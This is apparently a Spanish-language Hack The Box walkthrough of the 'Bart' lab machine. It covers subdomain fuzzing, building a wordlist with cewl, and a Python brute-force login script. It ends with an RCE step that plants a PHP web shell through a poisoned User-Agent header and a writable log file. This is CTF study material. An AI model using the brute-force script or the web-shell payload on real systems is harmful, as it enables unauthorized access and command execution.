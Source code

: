 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```bash
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```bash
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```bash
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```python
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```

COn el output de cewl y poniendo todo en minusculas sacamos el password

```
harvey

potter
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/e3da1420-e251-40b5-bbf2-b5ced1ed2c9b)

Siemmpre ve si el proyecto es open source en este caso si.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/5b4852f0-526c-4c36-8e91-61fec50ae625)


Pues yo no hubiera podido ver esto solo pero si intentamos registranos de acuerdo al codigo.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/371da5fe-0627-4863-9074-ccb5c9ae1516)

```
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=masa&password=masa1234"
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/aa59b77e-66eb-4861-b411-2756aabec176)

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/3ac269b9-79e1-40b5-8f32-24b3c626d805)


Si vemos el codigo vemos algo raro

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/218edb21-ee54-4ac2-bdc8-e627b8089bd8)

Nos encontramos que esa pagina esta como capturando el user agent. Y aparte permite que creemoes un arhivo con lo cual se podria

```
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

```

### RCE (log poisoning)

Pues se puede hacer de varias maneras pero esta es con python y requests

```
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'MASA: <?php system($_GET['cmd']); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=log1.php&username=harvey', proxies=proxies, headers=headers)

```

Ya sabes log1.php?cmd=descarga tu shell powershell nigsha...

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/61bd98bd-74ba-4d75-bd86-e6b16b4da29b)

Siempre es importante pasarse a la arquitecura de 64 por lo que la manera mas facil por lo menos que yo he visto es nc64.exe. 












































